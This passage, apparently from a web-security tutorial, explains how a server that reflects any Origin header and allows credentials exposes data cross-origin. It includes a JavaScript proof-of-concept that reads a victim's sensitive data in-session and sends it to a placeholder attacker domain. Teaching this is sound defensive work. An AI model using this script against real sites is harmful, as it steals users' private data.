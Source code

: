 Some applications need to provide access to a number of other domains. Since maintaining a list of allowed domains requires an ongoing effort, many take the easy route which adds more risk in creating mistakes that introduces a vulnerability.

One way developers do this is by reading the `Origin` HTTP header from requests and includes a response header stating that the requesting origin is allowed. So if an attacker adds an `Origin` header to a request or modifies its value like the following:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker-owned-website.com
Cookie: sessionid=...
```
The server will then send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker-owned-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (`attacker-owned-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application accepts arbitrary origins, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information, an attacker can retrieve these information by placing a script like the following on their website:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//attacker-owned-website.com/log?key='+this.responseText;
};
```